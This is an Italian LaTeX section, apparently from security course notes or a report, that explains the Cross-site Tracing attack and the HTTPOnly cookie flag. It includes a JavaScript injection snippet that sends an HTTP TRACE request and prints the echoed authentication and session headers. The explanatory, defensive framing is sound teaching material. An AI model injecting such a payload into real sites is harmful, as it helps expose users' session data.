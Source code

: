 \documentclass[a4paper,openright,italian]{article}
\begin{document}
\subsection{Cross-site Tracing \cite{XST}}
Questo tipo di attacco sfrutta il comando HTTP {\it TRACE} che permette di recuperare tutti gli headers di una pagina web, compresi quelli ``riservati'' relativi alla autenticazione e alla sessione in corso. Per ottenere tali informazioni, inseriamo il seguente frammento di codice nella pagina bersaglio:
\begin{lstlisting}[caption={tag ``img'' da aggiungere al messaggio}, label={code:xst},frame=trBL]
<script type="text/javascript">
if ( navigator.appName.indexOf("Microsoft") !=-1) 
{var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
 xmlHttp.open("TRACE", "./", false); 
 xmlHttp.send();
 str1=xmlHttp.responseText;
 while (str1.indexOf("\n") > -1) 
       str1 = str1.replace("\n","<br>"); 
 document.write(str1);
}
</script>
\end{lstlisting}
L'oggetto ActiveX creato invia il comando TRACE alla applicazione, quindi stampa a schermo la risposta.
\subsection{Altre contromisure a XSS: HTTPOnly Text}
Per prevenire attacchi XSS, Microsoft ha introdotto l'attributo di cookie {\it HTTPOnly}\cite{HTTPOnly}. Si tratta di un flag che, se settato, ordina al browser dell'utente di impedire ad eventuali script client-side di avere accesso alle informazioni contenute nel cookie. Essendo stato introdotto da poco, l'attributo {\it HTTPOnly} non \`e ancora supportato da parecchi browser.
\end{document}
